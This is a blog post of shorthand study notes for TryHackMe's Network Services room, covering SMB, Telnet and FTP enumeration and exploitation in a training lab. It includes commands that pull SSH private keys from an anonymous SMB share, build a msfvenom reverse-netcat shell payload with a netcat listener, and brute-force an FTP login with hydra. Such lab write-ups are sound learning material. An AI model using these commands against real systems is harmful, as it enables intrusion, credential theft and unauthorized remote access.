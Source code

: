```yaml
---
id: 4989
title: TryHackMe Network Services Room Notes
author: Mr Ash
type: "post"
guid: https://mrash.co/?p=4989
url: "/tryhackme-network-services-room-notes/"
primary_accent:
- '#004CFF'
secondary_accent:
- '#FF9D00'
ekit_post_views_count:
- '355'
fifu_image_url:
- https://p146.p4.n0.cdn.getcloudapp.com/items/KouA4YvJ/331dec0f-80dc-47ec-9428-c672af0e39da.jpeg?v=46de36c361b702350d16fc33ad8023eb
image: https://p146.p4.n0.cdn.getcloudapp.com/items/KouA4YvJ/331dec0f-80dc-47ec-9428-c672af0e39da.jpeg?v=46de36c361b702350d16fc33ad8023eb
categories: "['Hacking']"
---
```


Are you going through TryHackMe’s Network Services 1 Room? Need help taking notes? I got you covered. Here are my Network Services 1 room notes from TryHackMe, use them as much as you need!

*Disclaimer, this is written in shorthand format, meaning, full sentences and proper grammar are not always used. For writeups, see [SMB Part 1](https://mrash.co/tryhackme-network-services-walkthrough-smb-part-1-3/), for help with Linux, see [Quick Start Guide](https://mrash.co/linux-quick-start-guide/).*

## SMB: Understanding, Enumerating, Exploiting

Server Message Block (SMB) Protocol: client/server comms for file/printer/serial ports/others for MS Windows.

- Type: response-request protocol, transmits multiple messages to est connection.
- Connections: TCP/IP (NetBIOS, NetBEUI, IPX/SPX).
- SMB Commands (SMBs): if est connection, share files etc.
- Support: Samba (open source server) by UNIX.

<div class="elementor elementor-5269" data-elementor-id="5269" data-elementor-type="section"><div class="elementor-section-wrap"> <section class="elementor-section elementor-top-section elementor-element elementor-element-650fe30 elementor-section-boxed elementor-section-height-default elementor-section-height-default" data-element_type="section" data-id="650fe30" data-particle-mobile-disabled="false" data-particle_enable="false" data-settings="{"ekit_has_onepagescroll_dot":"yes"}"><div class="elementor-container elementor-column-gap-default"><div class="elementor-row"><div class="elementor-column elementor-col-100 elementor-top-column elementor-element elementor-element-19d1b1d" data-element_type="column" data-id="19d1b1d"><div class="elementor-column-wrap elementor-element-populated"><div class="elementor-widget-wrap"> <section class="elementor-section elementor-inner-section elementor-element elementor-element-75001c1 elementor-section-boxed elementor-section-height-default elementor-section-height-default" data-element_type="section" data-id="75001c1" data-particle-mobile-disabled="false" data-particle_enable="false" data-settings="{"ekit_has_onepagescroll_dot":"yes"}"><div class="elementor-container elementor-column-gap-default"><div class="elementor-row"><div class="elementor-column elementor-col-100 elementor-inner-column elementor-element elementor-element-2d39fa8" data-element_type="column" data-id="2d39fa8" data-settings="{"background_background":"gradient"}"><div class="elementor-column-wrap elementor-element-populated"><div class="elementor-background-overlay"></div><div class="elementor-widget-wrap"><div class="elementor-element elementor-element-87a745b elementor-position-right elementor-vertical-align-middle elementor-view-default elementor-mobile-position-top elementor-widget elementor-widget-icon-box" data-element_type="widget" data-id="87a745b" data-settings="{"ekit_we_effect_on":"none"}" data-widget_type="icon-box.default"><div class="elementor-widget-container"><div class="elementor-icon-box-wrapper"><div class="elementor-icon-box-icon"> <span class="elementor-icon elementor-animation-">  </span> </div><div class="elementor-icon-box-content"> <span> **Free Checklist:** Hacker's Learning Path </span>

 Offline checklist to track your learning path, become a great hacker and stay on task.

 </div> </div> </div> </div><div class="elementor-element elementor-element-96a5f87 elementor-tablet-button-align-stretch elementor-button-align-stretch elementor-widget elementor-widget-form" data-element_type="widget" data-id="96a5f87" data-settings="{"button_width":"25","step_next_label":"Next","step_previous_label":"Previous","step_type":"number_text","step_icon_shape":"circle","ekit_we_effect_on":"none"}" data-widget_type="form.default"><div class="elementor-widget-container"> <form class="elementor-form" method="post" name="CTA - Hackers Checklist"> <input name="post_id" type="hidden" value="5269"></input> <input name="form_id" type="hidden" value="96a5f87"></input> <input name="referer_title" type="hidden" value=""></input><div class="elementor-form-fields-wrapper elementor-labels-"><div class="elementor-field-type-email elementor-field-group elementor-column elementor-field-group-email elementor-col-75 elementor-md-80 elementor-field-required"> <label class="elementor-field-label elementor-screen-only" for="form-field-email"> Email </label> <input aria-required="true" class="elementor-field elementor-size-xs  elementor-field-textual" id="form-field-email" name="form_fields[email]" placeholder="Enter Email Here" required="required" size="1" type="email"></input> </div><div class="elementor-field-group elementor-column elementor-field-type-submit elementor-col-25 e-form__buttons"> <button class="elementor-button elementor-size-xs" type="submit"> <span> <span class=" elementor-button-icon"> </span> <span class="elementor-button-text">Get</span> </span> </button> </div> </div> </form> </div> </div> </div> </div> </div> </div> </div> </section> </div> </div> </div> </div> </div> </section> </div> </div>Enumeration: process of gathering info, `enum4linux`.

- Install (ubuntu): `enum4linux`
    1. `git clone <github URL>`
    2. `mv enum4linux.pl /usr/bin`
    3. `apt install smbclient`
- Access: `smbclient`
    1. `smbclient -U Anonymous //<ip>/profiles`
    2. `ls`, `more "Working...txt"`
    3. `cd .ssh`, `ls`, `mget id_rsa*`
    4. `chmod 600 id_rsa cactus@<ip>`

## Telnet: Understanding, Enumerating, Exploiting

Telnet: app protocol, connects/executes commands, non-secure clear text, replaced by ssh e.g. `telnet <ip> <port>`.

- Enumeration: dosen’t ‘jump out’ at us.
    1. `sudo nmap -vv -T4 -p- <ip>`
    2. `nmap -vv -A -p 8012 <ip>`
    3. `s****** b******`
- CVE (Common Vuln and Exposures): listed public sec flaws, with IDs.
- Shell: code/program to gain code/command execution.
- Reverse Shell: target comms back to attack device, target has listening port.
    1. `telnet <ip> <port>` | `CTRL + ]` closes telnet.
    2. `sudo tcpdump ip proto \\\\icmp -i tun0`
    3. `.RUN ping <my ip> -c 1`
    4. `msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip] lport=4444 R`
    5. `nc -lvp 4444`
    6. `.RUN <payload>`

## FTP: Understanding, Enumerating, Exploiting

File Transfer Protocol, allows remote (client/server) files transfers.

- Two Channels: 1) command/control, transmits commands/replies, 2) data, transfers actual data.
- Modes:
    - Active: client opens/listens, server actively connects.
    - Passive: server opens/listens, client connects.
- Enumeration
    1. `nmap -vv -T4 -Pn -p- <ip>` &amp; `nmap -vv -A -p 21 <ip>`
    2. `ftp <ip>`, `anonymous`, `ls`, `more PUBLIC_NOTICE.txt`
- Exploit: command/data channels unencrypted
    1. `hydra -t 4 -l mike -P /usr/share/wordlists/rockyou.txt.gz -vV <ip> ftp`

This is Day 42 of [\#100DaysOfHacking](https://mrash.co/100daysofhacking/), subscribe to my [newsletter](https://go.mrash.co/newsletter) to see the CyberSec journey! If you like, follow the [Learning Path](https://mrash.co/learning-path-for-beginner-hacker/) for yourself, happy hacking.